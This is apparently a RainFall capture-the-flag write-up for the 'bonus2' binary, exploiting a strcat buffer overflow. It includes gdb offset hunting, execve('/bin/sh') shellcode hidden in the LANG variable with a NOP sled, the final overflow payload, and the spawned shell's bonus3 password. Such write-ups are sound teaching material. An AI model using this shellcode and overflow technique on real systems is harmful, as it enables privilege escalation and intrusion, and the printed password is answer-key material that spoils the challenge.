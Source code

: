 # Bonus2

## Analysis

You can find the decompiled executable [here](./bonus2_decomp.c).

When taking a look at it, we can see that it takes 2 arguments; first it copies at most 40 bytes of our first argument to a buffer of size 72 named `dest`.
After that, it copies at most 32 bytes of the second argument after the first 40 bytes of `dest`.
So the maximum number of characters we can copy is 72.

Following these copies, it will get the value of one of our env variable, LANG, and compare its first two bytes to check if it contains either "fi" or "nl". In the first case, language will be set to 1, in the second case, it will be set to 2. If neither of these cases is true, then language = 0.

After that, `greetuser()` is called, this function has a 64 bytes buffer that we will call `u_buff`. It will, according to the language set, either copy:

- "Hello " if no lang is set
- "Goedemiddag! " if the lang is set to "nl"
- "Hyvää päivää " if the lang is set to "fi"

into our u_buff. After that, it will also `strcat()` our main's `dest` buffer into `u_buff` which will cause a segfault in most cases.

What's important is that our first argument must be of size 40, else, the strcat call in `greetuser()` will encounter a null byte and not read the second part of `dest`.

## Exploit

If we let LANG at its default value, we cannot find our offset when the crash occurs ("Hello " is not long enough to get to the EIP address), which is why we set LANG to "nl" during our exploit.

To find the desired offset, we used the following process:

```bash
(gdb) R $(python -c 'print "A" * 40') 1111222233334444555566667777888899990000       
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 40') 1111222233334444555566667777888899990000
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA11112222333344445555666677778888

Program received signal SIGSEGV, Segmentation fault.
0x37373736 in ?? ()
(gdb)
```

In this case using "nl" our offset is 23 (`0x37373736 = 6777`).

This is where we will store the address of our shellcode, speaking of it, we need to store it somewhere and the LANG env variable is the perfect candidate:

```bash
export LANG=$(python -c 'print("nl" + 100 * "\x90" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
```

After storing our shellcode, we need to get its address, we did this using GDB as follows:

```bash
(gdb) b *main+135
Breakpoint 1 at 0x80485b0
(gdb) r asd asd
Starting program: /home/user/bonus2/bonus2 asd asd

Program received signal SIGSEGV, Segmentation fault.
0x080485ab in main ()
(gdb) x/20s *((char **)environ)
0xbffffdb3:	"SHELL=/bin/bash"
0xbffffdc3:	"TERM=xterm-kitty"
0xbffffdd4:	"SSH_CLIENT=192.168.1.82 47980 4242"
0xbffffdf7:	"SSH_TTY=/dev/pts/0"
0xbffffe0a:	"USER=bonus2"
0xbffffe16:	"LS_COLORS="
0xbffffe21:	"COLUMNS=213"
0xbffffe2d:	"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
0xbffffe7a:	"MAIL=/var/mail/bonus2"
0xbffffe90:	"_=/usr/bin/gdb"
0xbffffe9f:	"PWD=/home/user/bonus2"
0xbffffeb5:	"LANG=nl\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220j\vX\231Rh//shh/bin\211\343\061\311\315\200"
0xbfffff36:	"LINES=50"
0xbfffff3f:	"HOME=/home/user/bonus2"
0xbfffff56:	"SHLVL=1"
0xbfffff5e:	"LOGNAME=bonus2"
0xbfffff6d:	"SSH_CONNECTION=192.168.1.82 47980 192.168.1.97 4242"
0xbfffffa1:	"LESSOPEN=| /usr/bin/lesspipe %s"
0xbfffffc1:	"LESSCLOSE=/usr/bin/lesspipe %s %s"
0xbfffffe3:	"/home/user/bonus2/bonus2"
```

We take the address of LANG and add 50 to it so that we land in the middle of the nopslide:

```bash
(gdb) x/x 0xbffffeb5 + 50
0xbffffee7:	0x90
```

We will use this address: `0xbffffee7` as our jump destination.

### /!\ BE CAREFUL /!\

As we can see here:

```c
if ( argc != 3 )
  return 1;
```

The program expects 3 arguments to work, however, if the address you pass as the second arguments starts with "20", or any other whitespace ascci value, it will print and the following part of the address will count as another argument making the program return early.

Example:

```bash
  first arg |         second arg            |               third arg            | fourth arg |
./bonus2      $(python -c 'print "A" * 40')   $(python -c 'print "B" * 23 + "\x20\xff\xff\xbf"')
                                                                               ↳ Counts as a whitespace, splitting the argument
```

#

## The payload

<spoiler>
  <summary>spoiler</summary>

Our payload will be composed of the following:

```bash
   1st arg                2nd arg
([40 filler]), ([23 filler] + [payload addr])
```

```bash
$(python -c 'print "A" * 40') $(python -c 'print "B" * 23 + "\xe7\xfe\xff\xbf"')
```

```bash
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 23 + "\xe7\xfe\xff\xbf"')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBB����
$ whoami 
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
$ 
```

</spoiler>

